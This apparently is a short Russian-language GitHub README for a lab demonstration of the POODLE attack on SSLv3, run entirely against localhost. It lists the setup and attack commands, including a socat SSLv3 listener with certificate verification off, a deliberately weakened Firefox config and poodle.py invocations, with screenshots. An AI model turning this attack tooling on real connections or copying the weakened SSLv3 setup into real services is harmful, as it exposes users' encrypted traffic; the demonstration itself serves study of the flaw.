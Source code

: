 # showcase-of-ssl
# установка ssl
apt-get install openssl
# генерируем ключ 
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/07e50593-2449-4b7d-9237-05ad54894b53)

# устанавливаю уязвимость в конфиге браузера firefox
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/64956cb1-ffe1-43bc-a49d-1dd40c78476d)

# создание связи между сервером и ssl listener
socat -v -x OPENSSL-LISTEN:4433,verify=0,method=SSLv3,cert=cert-poodle.pem,key=key-poodle.pem,reuseaddr,fork TCP:localhost:4080

# для использования стандартных правил iptables
./poodle.py --target-port 4433 --start-offset 384 https://localhost:8443

# создание 3х терминалов 
./poodle-dev.sh httpserver
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/777ff6b4-5a38-4dde-9d78-234df41026e7)

./poodle-dev.sh sslserver
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/94165ddd-0219-4f11-b9ae-ffca19f57822)

./poodle-dev.sh attacker-nodebug

# подтверждаем самостоятельно сделанные сертификаты 
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/383beaf5-7389-4eae-b2e0-b14a51d37307)
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/a541d75e-43cf-4971-b907-c84e7c5408f0)


# проводим свою атаку
$ ./poodle.py --target-port 4433 --start-offset 384 https://localhost:8443
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/9f7c682c-653d-448f-a1cf-90ed5fa0de34)


